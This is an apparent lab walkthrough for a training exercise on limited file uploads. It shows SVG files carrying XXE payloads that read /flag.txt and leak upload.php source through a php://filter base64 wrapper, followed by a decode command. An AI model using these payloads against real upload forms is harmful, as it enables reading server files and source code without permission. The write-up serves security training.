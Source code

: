 # Limited File Uploads

#### The above exercise contains an upload functionality that should be secure against arbitrary file uploads. Try to exploit it using one of the attacks shown in this section to read "/flag.txt"

The application in this section allows to upload a file, and the goal of this exercise is to try to exploit any file upload vulnerability.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To look for the flag we must adapt the script provided along the section:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<svg>&xxe;</svg>
```

Just create a file (`nano xxe.svg`), copy and paste the code above and then hit the **Upload** button.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After the image got successfully uploaded, look for the svg file with the **inpect element** too&#x6C;**.**

And the flag should be easily visible!

#### Try to read the source code of 'upload.php' to identify the uploads directory, and use its name as the answer. (write it exactly as found in the source, without quotes)

For the second part, in the same application we have another task. This time we have to read the source code of 'upload.php' and identify the uploads directory.

This time we'll the following script:

{% code overflow="wrap" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```
{% endcode %}

Like the last time, upload the file and look for the .svg file.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

You should see a base64 string within. Copy it and use in the command bellow do decode it:

```bash
echo "base64_string" | base64 --decode
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And there it is! We manage to decode it and get the uploads directory!
